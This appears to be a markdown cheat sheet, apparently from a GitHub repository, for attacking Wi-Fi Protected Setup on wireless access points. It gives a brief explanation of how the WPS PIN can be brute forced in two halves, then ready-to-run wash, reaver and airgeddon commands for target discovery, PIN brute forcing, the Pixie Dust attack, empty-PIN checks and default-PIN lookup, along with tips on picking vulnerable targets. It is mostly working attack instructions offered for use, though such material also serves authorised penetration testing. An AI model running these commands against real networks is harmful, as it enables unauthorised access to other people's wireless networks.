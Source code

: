# Explanation

  WPS (Wi-Fi Protected Setup) was meant to unify WPA and WPA2, 
  mostly by input of a PIN code or button push.

  - Enrolee   -> The device looking to join the network
  - Registrar -> Whose role is to configure `enroleess` to join the network

  Brute force happens in two steps:
  1. First half of the pin is verified if we receive M5 (10,000) combinations
  2. Second half is correct if we receive M7 (1,000) combinations

-----------------------

# Use Wash to get information about surrounding APs
```bash
# Default 2.4GHz
sudo wash -i wlan0mon

# Scan 5GHz
sudo wash -i wlan0mon -5
```
```bash
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
00:0A:D0:97:39:6F    1  -88  2.0  No   Broadcom  linksys
C8:BC:C8:FE:D9:65    2  -28  2.0  No   AtherosC  secnet
34:08:04:09:3D:38    3  -32  1.0  No   RalinkTe  wifu
```
Important: 
  - WPS 1.0 is easier since 2.0 has bruteforce mitigations
  - Lck if Yes, we know that the WPS is locked and we cannot attack it

-----------------------

# PIN Bruteforce attack
```bash
sudo reaver -c 3 -b 34:08:04:09:3D:38 -i wlan0mon -vv
```
-----------------------

# PixieWPS attack
```bash
# Reaver
sudo reaver -c 3 -b 34:08:04:09:3D:38 -i wlan0mon -vv -K

# Bully
# TODO
```
-----------------------

# Verify if PIN is empty and don't need bruteforcing
```bash
sudo reaver -c 3 -b 34:08:04:09:3D:38 -i wlan0mon -vv -p
```
-----------------------

# Finding default pin values
```bash
sudo apt install airgeddon

source /usr/share/airgeddon/known_pins.db

# If BSSID starts with 00:13:F7
echo ${PINDB["0013F7"]}
```
-----------------------

# GOOD TO KNOW

  - PixieWPS preferred over Bruteforcing
  - If error after getting pin, restart reaver without -K option
  - When in doubt -vv for debugging
